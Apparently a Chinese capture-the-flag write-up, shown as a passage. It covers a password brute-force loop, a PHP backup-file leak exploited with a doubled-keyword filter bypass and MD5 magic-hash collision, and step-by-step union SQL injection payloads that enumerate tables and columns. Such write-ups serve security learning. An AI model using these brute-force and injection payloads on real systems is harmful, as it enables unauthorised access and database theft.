 ```bash
    data={"pwd":pwd}
    response=s.post(url,data=data)
    if "密码不正确，请重新输入" not in response.content.decode("utf-8"):
        print(response.content)
        print("破解成功")
        time.sleep(10)
        exit()
for pwd in range(10000,99999):
    print(pwd)
    getflag(pwd)
```
# 听说备份是是一个好习惯
输入index.php.bak得到源码
```bash
<?php
/**
 * Created by PhpStorm.
 * User: Norse
 * Date: 2017/8/6
 * Time: 20:22
*/

include_once "flag.php";
ini_set("display_errors", 0);
$str = strstr($_SERVER['REQUEST_URI'], '?');
$str = substr($str,1);
$str = str_replace('key','',$str);
parse_str($str);
echo md5($key1);

echo md5($key2);
if(md5($key1) == md5($key2) && $key1 !== $key2){
    echo $flag."取得flag";
}
?>
```
双写key绕过
```bash
?kekeyy1=QNKCDZO&kekeyy2=240610708
```
# 成绩单
普通注入题
判断列数
```bash
id=1'order by 4 #
```
判断显示位
```bash
id=-1' union select 1,2,3,4 %23
```
表名
```bash
id=-1' union select 1,2,(select group_concat(table_name) from information_schema.tables where table_schema=database()),4 %23
```
字段名
```bash
id=-1' union select 1,2,(select group_concat(column_name) from information_schema.columns where table_name=0x666C3467),4 %23
```
脱裤
```bash
```